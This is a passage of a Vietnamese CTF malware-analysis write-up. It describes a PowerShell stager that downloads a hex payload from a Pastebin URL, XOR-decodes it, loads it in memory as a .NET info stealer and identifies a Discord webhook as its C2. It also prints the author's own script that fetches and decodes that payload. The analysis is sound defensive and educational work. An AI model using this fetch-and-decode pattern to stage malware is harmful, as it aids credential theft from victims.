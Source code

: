 ```
```
Tóm tắt thì script này có workflow như sau:
1. Tải chuỗi dữ liệu từ pastebin.com/raw/90qeYSHA.
1. Chuỗi này là danh sách hex (ví dụ 0xAF,0x1C,...).
1. Tạo mảng byte từ hex, XOR từng byte với 0x24 để giải mã → thu được originalBytes.
1. Dùng [System.Reflection.Assembly]::Load để load bytes như .NET assembly (DLL/EXE) trực tiếp vào memory.
1. Sau đó lấy type StealerJanai.core.RiderKick và gọi phương thức tĩnh Run() 

thì không thể bàn cãi gì thêm đây chính là quá trình stager của mã độc 

Tiếp theo thì tạo một script để tải và giải mã payload gốc từ *Pastebin*, lưu thành file binary để tiện cho việc phân tích nhưng không thực thi

```
$u="https://pastebin.com/raw/90qeYSHA"
$k=0x24
$out="decoded.bin"
$wc=New-Object System.Net.WebClient
$txt=$wc.DownloadString($u)
$wc.Dispose()
$hex=$txt.Trim() -split ',' | Where-Object{$_ -match '^0x[0-9A-Fa-f]+$'}
$enc=[byte[]]::new($hex.Length)
for($i=0;$i -lt $hex.Length;$i++){ $enc[$i]=[Convert]::ToByte($hex[$i].Trim(),16) }
$dec=[byte[]]::new($enc.Length)
for($i=0;$i -lt $enc.Length;$i++){ $dec[$i]=$enc[$i] -bxor $k }
[IO.File]::WriteAllBytes($out,$dec)
```

Nhưng do author đã disable *"https://pastebin.com/raw/90qeYSHA"*, rất may là trong lúc làm bài khi thi, mình vẫn còn giữ sample.

![image](https://hackmd.io/_uploads/rkI84rURll.png)

bỏ vào tool **Exeinfo PE** để kiểm tra bước đầu

![Screenshot 2025-10-22 185057](https://hackmd.io/_uploads/rkqBrH80el.png)


chúng ta có thể dự đoán rất có khả năng file đó được biên dịch bằng .NET, cụ thể là C#

chúng ta sẽ mở file này với **dnspy**.

![image](https://hackmd.io/_uploads/r1vCDrI0le.png)

Xem sơ qua thì đây là một con info stealer, với C2 là một *Discord Webhook* (ảnh chụp bên trên có một phần cấu hình *Discord Webhook*). Nhưng do bài hành vi của mã độc tác động nhiều đến việc lấy được flag, nên mình sẽ không đi sâu vào phân tích hành vi, hay C2 để đỡ mất thời gian.


tiếp theo để ý ở class **SystemSecretInformationCollector**
![Screenshot 2025-10-22 191347](https://hackmd.io/_uploads/ry2T5H8Rll.png)
có thể thấy là nó đang cố decode và tạo một string gì đấy, bao gồm các kí tự như **_**, **}** => rất giống format của một flag CTF. Hãy phân tích kĩ hàm này.
